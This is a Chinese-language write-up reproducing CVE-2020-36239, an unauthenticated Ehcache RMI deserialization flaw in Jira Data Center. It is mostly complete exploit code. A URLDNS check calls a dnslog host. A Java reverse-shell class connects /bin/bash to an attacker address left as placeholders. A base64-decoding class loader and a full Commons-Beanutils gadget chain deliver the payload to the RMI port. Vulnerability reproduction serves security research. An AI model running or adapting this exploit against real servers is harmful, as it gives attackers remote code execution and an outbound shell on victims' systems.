




## 简介
2021 年 7 月 9 日上午 5:44 Jira 官方发布公告 《Jira 数据中心和 Jira 服务管理数据中心 - Ehcache RMI 缺少身份验证 - CVE-2020-36239(https://jira.atlassian.com/browse/JSDSERVER-8454)》, 该漏洞影响多个产品的多个版本,官方已给出修复方法。详细请关注 Jira 官网，将软件更新至安全版本: https://jira.atlassian.com/ 
## 背景
由于在复现CVE2020-36239这个漏洞的时候，使用ysoserial项目中的代码，执行CB1，无法成功利用反弹shell，执行任意命令，导致一直在找问题，最后通过和同事沟通，发现该漏洞存在的Commons Beanutils 确实是可以利用，但是Commons Collections 版本较高，是无法利用成功的；仔细查看其实所有的CC链，CB链其实就是代码执行，只是执行的代码是Runtime.getRuntime.exec(cmd)，其中cmd为需要执行的命令，在部署的目标测试环境，通过实验最后得知，在使用Runtime.getRuntime.exec(cmd)是无法执行命令（反弹shell）最后通过修改代码执行逻辑，使用Java的socket编程来反弹shell。
## 漏洞分析
根据官方的描述该漏洞是因为: 暴露了一个 Ehcache RMI 网络服务，攻击者可以在端口 40001 和潜在的 40011 上连接到该服务，由于缺少身份验证漏洞，可以通过反序列化在 Jira 中执行他们选择的任意代码
使用Nmap扫描
```shell
nmap -T 4 -A 10.1.1.13  -p 40001
```

其中绑定的name为`rmi://com.atlassian.jira.index.property.CachingPluginIndexConfigurationManager.cacheByEntityKey`;绑定的实例接口为`net.sf.ehcache.distribution.RMICachePeer_Stub`
### 漏洞触发点
在 net.sf.ehcache.distribution.RMICachePeer_Stub 找触发点, 官方通报中说是 Ehcache 暴露的 RMI 服务，所以实体类应该也在 Ehcache 包里
在绑定的 `net.sf.ehcache.distribution.RMICachePeer_Stub`类中的 `getQuiet`方法接收的参数是 `Serializeable`对象，这里就是漏洞的触发点

## 漏洞验证
所有绑定的 name, 都是绑定 net.sf.ehcache.distribution.RMICachePeer_Stub, 所以随机选一个就可以了， 使用 URLDNS 验证了漏洞确实存在
```java
package com.myproject.temp;

import net.sf.ehcache.distribution.RMICachePeer_Stub;

import java.lang.reflect.Field;
import java.net.URL;
import java.rmi.Naming;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://vd2vvt.dnslog.cn");
        HashMap hashMap = new HashMap();
        hashMap.put(url,"hhh");
        Field field = URL.class.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.setInt(url,-1);

        RMICachePeer_Stub rmiCachePeer_stub = (RMICachePeer_Stub) Naming.lookup("rmi://10.1.1.13:40001/com.atlassian.jira.index.property.CachingPluginIndexConfigurationManager.cacheByEntityKey");
        rmiCachePeer_stub.getQuiet(hashMap);
    }
}
```

通过查看Jira 是否用了存在利用链的包，Commons-Collection 都用了相对安全的版本，但是 Commons-Beanutils 1.9.4 存在利用链，那么就可以利用CB1来构造序列化对象
### EXP
首先编写shell.java，利用socket 编程反弹shell到目标地址，注意这里一定要写进无参构造函数，因为利用CB1链，通过javassit写入到新的类，再将其转换成bytecode 放在TemplatesImpl._bytecodes时，最后执行的是newInstance()，也就是实例化的过程，需要放在构造函数中
```java
package com.myproject.temp;

public class shell {
    public shell(){
        try{
            String host = "xxx.xxx.xxx.xxx";
            int port = port;
            String cmd = "/bin/bash";
            java.lang.Process p = new java.lang.ProcessBuilder(cmd).redirectErrorStream(true).start();
            java.net.Socket s = new java.net.Socket(host, port);
            java.io.InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
            java.io.OutputStream po = p.getOutputStream(), so = s.getOutputStream();
            while (!s.isClosed()) {
                while (pi.available() > 0) {
                    so.write(pi.read());
                }
                while (pe.available() > 0) {
                    so.write(pe.read());
                }
                while (si.available() > 0) {
                    po.write(si.read());
                }
                so.flush();
                po.flush();
                Thread.sleep(50);
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {
                }
            }
            p.destroy();
            s.close();
        }catch (Exception e){}

    }

    public static void main(String[] args) {
        System.out.println(123);
    }
}
```
然后需要编写一个ClassLoader，让javassist从源中读取该类文件，并返回CtClass对该类文件的对象的引用，主要原因是因为要将shell.class 转换成base64编码进行写入，最后再通过classloader进行解码，再将其转换成bytecode，放入到Templates._bytecode中
这里参考的是[Y4er——ysoserial](https://github.com/Y4er/ysoserial)大哥更改后的项目
```java
package com.myproject.temp;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.zip.GZIPInputStream;

public class ClassLoaderTemplate {
    static String b64;

    static {
        try {
            GZIPInputStream gzipInputStream = new GZIPInputStream(new ByteArrayInputStream(base64Decode(b64)));
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            byte[] bs = new byte[4096];
            int read;
            while ((read = gzipInputStream.read(bs)) != -1) {
                byteArrayOutputStream.write(bs, 0, read);
            }
            byte[] bytes = byteArrayOutputStream.toByteArray();
            ClassLoader classLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());
            Method defineClass = classLoader.getClass().getSuperclass().getSuperclass().getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            defineClass.setAccessible(true);
            Class invoke = (Class) defineClass.invoke(classLoader, bytes, 0, bytes.length);
            invoke.newInstance();
        } catch (Exception e) {
            // e.printStackTrace();
        }
    }

    public static byte[] base64Decode(String bs) throws Exception {
        Class base64;
        byte[] value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Decoder");
                Object decoder = base64.newInstance();
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
            } catch (Exception e2) {
            }
        }
        return value;
    }
}

```
最后再将CB1的逻辑完成，如下所示
```java
PriorityQueue<Object> queue = new PriorityQueue<Object>(2);
queue.add(1);
queue.add(1);
Constructor constructor = Class.forName("org.apache.commons.beanutils.BeanComparator").getDeclaredConstructor();
BeanComparator comparator = (BeanComparator) constructor.newInstance();
Field f3 = Class.forName("org.apache.commons.beanutils.BeanComparator").getDeclaredField("property");
f3.setAccessible(true);
f3.set(comparator,"outputProperties");
Field f4 = queue.getClass().getDeclaredField("comparator");
f4.setAccessible(true);
f4.set(queue,comparator);
Field f5 = queue.getClass().getDeclaredField("queue");
f5.setAccessible(true);
Object[] queueArray = (Object[]) f5.get(queue);
queueArray[0] = templates;
```
完整代码如下
```java
package com.myproject.temp;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import net.sf.ehcache.distribution.RMICachePeer_Stub;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.codec.binary.Base64;
import org.apache.wicket.util.file.Files;
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.rmi.Naming;
import java.util.PriorityQueue;
import java.util.zip.GZIPOutputStream;

public class Test_2 {
    public static void main(String[] args) throws Exception {
        byte[] ctBytes = Files.readBytes(new File("/Users/aaronluo/Documents/CodeReview/JavaCode/Project/target/classes/com/myproject/temp/shell.class"));
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        CtClass ctClass;
        ctClass = pool.get("com.myproject.temp.ClassLoaderTemplate");
        ctClass.setName(ctClass.getName() + System.nanoTime());
        ByteArrayOutputStream outBuf = new ByteArrayOutputStream();
        GZIPOutputStream gzipOutputStream = new GZIPOutputStream(outBuf);
        gzipOutputStream.write(ctBytes);
        gzipOutputStream.close();
        String content = "b64=\"" + Base64.encodeBase64String(outBuf.toByteArray()) + "\";";
        ctClass.makeClassInitializer().insertBefore(content);
        ctClass.setSuperclass(superC);
        ctClass.writeFile();
        byte[] classBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field f = templates.getClass().getDeclaredField("_name");
        f.setAccessible(true);
        f.set(templates,"123");

        Field f1 = templates.getClass().getDeclaredField("_bytecodes");
        f1.setAccessible(true);
        f1.set(templates,targetByteCodes);

        Field f2 = templates.getClass().getDeclaredField("_class");
        f2.setAccessible(true);
        f2.set(templates,null);

        PriorityQueue<Object> queue = new PriorityQueue<Object>(2);
        queue.add(1);
        queue.add(1);
        Constructor constructor = Class.forName("org.apache.commons.beanutils.BeanComparator").getDeclaredConstructor();
        BeanComparator comparator = (BeanComparator) constructor.newInstance();
        Field f3 = Class.forName("org.apache.commons.beanutils.BeanComparator").getDeclaredField("property");
        f3.setAccessible(true);
        f3.set(comparator,"outputProperties");
        Field f4 = queue.getClass().getDeclaredField("comparator");
        f4.setAccessible(true);
        f4.set(queue,comparator);
        Field f5 = queue.getClass().getDeclaredField("queue");
        f5.setAccessible(true);
        Object[] queueArray = (Object[]) f5.get(queue);
        queueArray[0] = templates;

        Serializable payload = (Serializable) queue;
        RMICachePeer_Stub rmiCachePeer_stub = (RMICachePeer_Stub) Naming.lookup("rmi://10.1.1.13:40001/com.atlassian.jira.index.property.CachingPluginIndexConfigurationManager.cacheByEntityKey");
        rmiCachePeer_stub.getQuiet(payload);
    }
}

```

## 参考链接
[https://forum.butian.net/share/653](https://forum.butian.net/share/653)

